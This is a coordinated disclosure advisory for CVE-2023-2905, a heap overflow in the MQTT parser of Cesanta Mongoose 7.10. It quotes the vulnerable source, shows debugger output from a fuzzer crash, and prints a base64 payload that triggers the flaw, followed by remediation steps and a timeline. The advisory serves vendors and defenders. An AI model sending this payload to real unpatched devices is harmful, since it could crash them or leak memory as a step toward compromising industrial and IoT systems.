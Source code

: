 ```yaml
---
layout: default
title: CVE-2023-2905
categories: nav
showinnav: false
---
```


# CVE-2023-2905: Cesanta Mongoose MQTT Message Parsing Heap Overflow

[AHA!] has discovered an issue with Mongoose from Cesanta, and is publishing this disclosure in accordance with AHA!’s standard [disclosure policy](https://takeonme.org/cve.html) today, on Tuesday, August 8, 2023. [CVE-2023-2905] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length of a provided a `MQTT_CMD_PUBLISH` parsed message with a variable length header, the dual-licensed [Cesanta Mongoose](https://github.com/cesanta/mongoose) embeddable web server version 7.10 is susceptible to a heap-based buffer overflow vulnerability in the default configuration. [CVE-2023-2905] appears to be an instance of [CWE-122](https://cwe.mitre.org/data/definitions/122.html). Version 7.9 and prior does not appear to be vulnerable.

# Technical Details

Below is the code used to parse mqtt messages with lines 365-370 being used to ensure that the variable length portion of the buffer is not larger than 4 bytes and breaking out of the loop if `lc & 0x80` evaluates to false (based on the MSB).

src/mqtt.c
```
352 int mg_mqtt_parse(const uint8_t *buf, size_t len, uint8_t version,
353                   struct mg_mqtt_message *m) {
354   uint8_t lc = 0, *p, *end;
355   uint32_t n = 0, len_len = 0;
356
357   memset(m, 0, sizeof(*m));
358   m->dgram.ptr = (char *) buf;
359   if (len < 2) return MQTT_INCOMPLETE;
360   m->cmd = (uint8_t) (buf[0] >> 4);
361   m->qos = (buf[0] >> 1) & 3;
362
363   n = len_len = 0;
364   p = (uint8_t *) buf + 1;
365   while ((size_t) (p - buf) < len) {
366     lc = *((uint8_t *) p++);
367     n += (uint32_t) ((lc & 0x7f) << 7 * len_len);
368     len_len++;
369     if (!(lc & 0x80)) break;
370     if (len_len >= 4) return MQTT_MALFORMED;
371   }
```

Then lines 393-406 show the code path to the vulnerable function `decode_variable_length`, containing the remaining to be read mqtt buffer after additions to the `p` pointer on lines 394, 397, 402.

src/mqtt.c
```
393     case MQTT_CMD_PUBLISH: {
394       if (p + 2 > end) return MQTT_MALFORMED;
395       m->topic.len = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
396       m->topic.ptr = (char *) p + 2;
397       p += 2 + m->topic.len;
398       if (p > end) return MQTT_MALFORMED;
399       if (m->qos > 0) {
400         if (p + 2 > end) return MQTT_MALFORMED;
401         m->id = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
402         p += 2;
403       }
404       if (p > end) return MQTT_MALFORMED;
405       if (version == 5 && p + 2 < end) {
406         m->props_size = decode_variable_length((char *) p, &len_len);
```

The below shows the buffer from the crash file showing a 10 byte mqtt message with the 8th byte having the MSB set. 

```
Thread 1 "fuzzer" hit Breakpoint 7, LLVMFuzzerTestOneInput (data=0xffffb4500790 "5\b", size=10) at test/fuzz.c:38

38        mg_mqtt_parse(data, size, 5, &mm);
(gdb) x/12bx data
0xffffb4500790: 0x35    0x08    0x00    0x01    0x00    0x00    0x5a    0x8a
0xffffb4500798: 0xff    0xff    0x00    0x00
```

This results in a variable length header being detected but only containing 3 bytes, as can be seen below

```
Thread 1 "fuzzer" hit Breakpoint 8, mg_mqtt_parse (buf=<optimized out>, len=<optimized out>, version=<optimized out>, m=<optimized out>) at src/mqtt.c:415
415             m->props_size = decode_variable_length((char *) p, &len_len);
(gdb) x/10x p
0xffffb0b00797: 0x8a    0xff    0xff    0x00    0x00    0x00    0x00    0x00
0xffffb0b0079f: 0x00    0x02
```

And finally, the `decode_variable_length` function code, which contains no bounds checks on the size of the buffer being read.

src/mqtt.c
```
 92 static uint32_t decode_variable_length(const char *buf,
 93                                        uint32_t *bytes_consumed) {
 94   uint32_t value = 0, multiplier = 1, offset;
 95
 96   for (offset = 0; offset < 4; offset++) {
 97     uint8_t encoded_byte = ((uint8_t *) buf)[offset];
 98     value += (encoded_byte & 0x7F) * multiplier;
 99     multiplier *= 128;
100
101     if (!(encoded_byte & 0x80)) break;
102   }
103
104   if (bytes_consumed != NULL) *bytes_consumed = offset + 1;
105
106   return value;
107 }
```

This allows for a read primitive of 1-3 bytes from a heap overflow.

# Payload

A base64 encoded blob of the payload needed to trigger the vulnerability can be found below.

```
NQgAAQAAWor//w==
```


# Attacker Value

Cesanta Mongoose is an embedded webserver library commonly used to add web server functionality to devices with vendor provided integrations. According to the project's [README](https://github.com/cesanta/mongoose), "Mongoose is used by hundreds of businesses, from Fortune500 giants like Siemens, Schneider Electric, Broadcom, Bosch, Google, Samsung, Qualcomm, Caterpillar to the small businesses." Because it is an embedded software, often implemented in the context of  IOT/ICS (Internet of Things / Industrial Control Systems), its presence may be difficult for affected end-users to audit for.

If an attacker has the capability of sending an MQTT message to the webserver (which would require direct network access to the network hosting the device), that attacker could use the above primitive in a chain to obtain remote code execution on an embedded device. The level of access would depend on the parent process that runs Mongoose. In most IOT/ICS contexts, this would typically result in the total compromise of the webserver, and, if it is not running in a privilege-restricted context, total compromise of the hosting device.

# Remediation

[PR2274](https://github.com/cesanta/mongoose/pull/2274) fixes the issue on the main branch of the open source repository; the vendor has further advised that Mongoose [Version 7.11](https://github.com/cesanta/mongoose/releases/tag/7.11) available for downstream users and implementors addresses the issue.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-25 (Thu): Initial findings presented at AHA! Meeting 0xffff
* 2023-06-22 (Thu): PoC validated and this disclosure drafted.
* 2023-06-22 (Thu): Disclosed to the vendor via email at support@cesanta.com.
* 2023-06-23 (Fri): Vendor acknowledged the vulnerability.
* 2023-06-27 (Tue): Vendor fixed `master` branch with [PR2274](https://github.com/cesanta/mongoose/pull/2274).
* 2023-08-07 (Mon): Reached out to vendor for a status update.
* 2023-08-08 (Tue): Vendor advised publishing this disclosure of [CVE-2023-2905].

<br/>

----

[CVE-2023-2905]: https://takeonme.org/cves/CVE-2023-2905-YYYY.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
